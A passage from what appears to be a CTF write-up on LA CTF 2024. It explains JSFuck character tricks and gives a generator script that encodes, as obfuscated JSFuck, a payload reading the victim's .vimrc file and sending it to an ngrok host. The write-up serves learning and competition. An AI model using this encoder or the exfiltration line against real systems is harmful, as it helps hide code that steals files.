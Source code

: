   JSFuck gets `/` by calling [`'false0'.italics()`][italics], which wraps it into `<i>false0</i>`. This string was probably selected for its shorter code length, but because it relies on concatenation it becomes `<i>false^w^</i>`, which changes the index of `/` in the string.

  What's `/` for? JSFuck uses it to create a function[^10] with body `return/false/`, which returns an instance of `RegExp`. It can then do `/false/.constructor` to get the `RegExp` class constructor itself, then construct `RegExp('/')` which creates a regular expression that just has a `/`. However, in JavaScript's regular expression literals, `/` must be escaped, so casting `RegExp('/')` to a string produces a string containing `/\//`.

  So `Function('return/false/').constructor('/') + ''` is how JSFuck gets a backslash character `\`.

[italics]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/italics

All this was just to generate the underscore character `_` for `__proto__`. JSFuck creates a function that returns a string with an octal escape sequence, then calls it: `Function('return"\137"')()`. This escape sequence method is JSFuck's last resort for characters it can't get through other means.

[^10]: You might be wondering how JSFuck can create a function in the first place. You can get `a` from `false` and `t` from `true`, and arrays have a method named `at`, which you can access with `[]['a' + 't']`. It's also possible to get the other letters in `constructor`, so you can use `[]['at']['constructor']` to get a reference to the `Function` constructor, which you can use to convert strings to functions. For example, `Function('return 3')` creates a function that returns 3.

After fixing everything, I realized that my plan of trying to reset `[].__proto__.toString` wouldn't work because I also needed a reference to the original `Array.prototype.toString`. While I felt like it was possible, I couldn't be bothered to try to investigate and fix more issues caused by an even longer string needed.

That was because I realized that I could adapt the octal escape sequence code to get any character I wanted. All I needed to do was write a script:


```js
[].__proto__.toString=()=>'^w^'
backslash = `([]
    [(![]+[])[+!!+[]]+(![]+[])[!+[]+!+[]]+(! … !+[]+!+[]+!+[]+!+[]])+[])[+!+[]]`
// create octal codes
w=(Array.from(`require('https').get('https://57e8-104-177-117-127.ngrok-free.app/' + require('fs').readFileSync('.vimrc').toString())`, c => `${backslash}+(${'!+[]+'.repeat(+c.codePointAt().toString(8)).slice(0, -1)})`).join('+'))
// return string of octal codes
w=`(!![]+[])[+!+[]] … []+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]
  +
  ${w}
  +
  ([]+[])[(![]+[])[+!!+[]]+(!![]+[][(![]+[])[+!!+[]]+(![]+[]) … !+[]+!+[]+!+[]]`
// eval string expression
w=`[][(![]+[])[+!!+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+ … +[]]+(!![]+[])[+!+[]]]
(${w})
()`
// eval it
w=`[][(![]+[])[+!!+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+ … +[]]+(!![]+[])[+!+[]]]
(${w})
()`
w = w.replace(/\s/g, '')
console.log(w)
```

_I truncated the JSFuck code because it's a bit long. You can [view the full file here][gen]._


[acmucsd]: https://acmucsd.com/communities#Cyber
[acmucla]: https://www.acmcyber.com/
[lactf]: https://lac.tf/
[jsfuck]: https://jsfuck.com/
[strings]: https://en.wikipedia.org/wiki/Strings_(Unix)
[ghidra]: https://ghidra-sre.org/
[dogbolt-aplet321]: https://dogbolt.org/?id=4c61df44-da40-4158-80b4-f4155fbf227e
[strstr]: https://cplusplus.com/reference/cstring/strstr/
[bendera]: https://en.wiktionary.org/wiki/bendera#Indonesian
[wiki]: https://id.wikipedia.org/wiki/Bendera_Indonesia
[dcode]: https://www.dcode.fr/monoalphabetic-substitution
[indofreq]: https://www.sttmedia.com/characterfrequency-indonesian
[^1]: Something I never got to use at UCSD because UCSD didn't have a two-year housing guarantee.
[^2]: The deepest darkest secret doesn't work because the server just sets it to `todo` for all non-Samy users.
[fetch]: https://developer.mozilla.org/en-US/docs/Web/API/fetch
[prior]: http://127.0.0.1:4000/longer-tweets/ctf/#ctf-node-calculator-escape-vm-codegeneration-false
[vuln]: https://security.snyk.io/vuln/SNYK-JS-SAFEEVAL-3373064
[gen]: ../files/lactf/lactf-jsfudge.js
[gener]: ../files/lactf/jsfudge-codegen.js
[e]: https://github.com/uclaacm/lactf-archive/blob/main/2024/rev/glottem/glottem#L10
[polyglot]: https://en.wikipedia.org/wiki/Polyglot_(computing)
[^11]: This was originally a Node-specific feature that has recently been [standardized into JavaScript][shebang], adding a fourth comment syntax to JavaScript's existing family of `//`, `/* */`, and `<!-- -->`.
[shebang]: https://github.com/tc39/proposal-hashbang
[server]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/server.js
[note]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/note.js
[nesting]: https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_nesting
[^12]: I tried looking through my browsing history, but there's no evidence of me ever learning about this from anything online. Based on my browsing history, it just looks like I was trying things like `<span id="document">` then suddenly had a stroke of genius and tried doing `<form name=querySelectorAll>`. Then, I got confused where I got this idea from and tried to look up "form name getelementbyid injection" to find the original post.
[^13]: Again, as noted at the beginning of the article, everyone at UCSD is part of our team. I don't think this counts as cheating. At worst it's just some OSINT.
[paradox]: https://www.dcode.fr/birthday-problem
[^14]: It's possible for a trigraph to be missing a pair, like having `abc` but not `ab`, due to CSS variable collisions.
[worker]: https://workers.cloudflare.com/
[tunnel]: https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/
[workers]: https://blog-cloudflare-com.webpkgcache.com/doc/-/s/blog.cloudflare.com/announcing-workers-dev/
[^15]: Like our dining halls' mobile ordering app.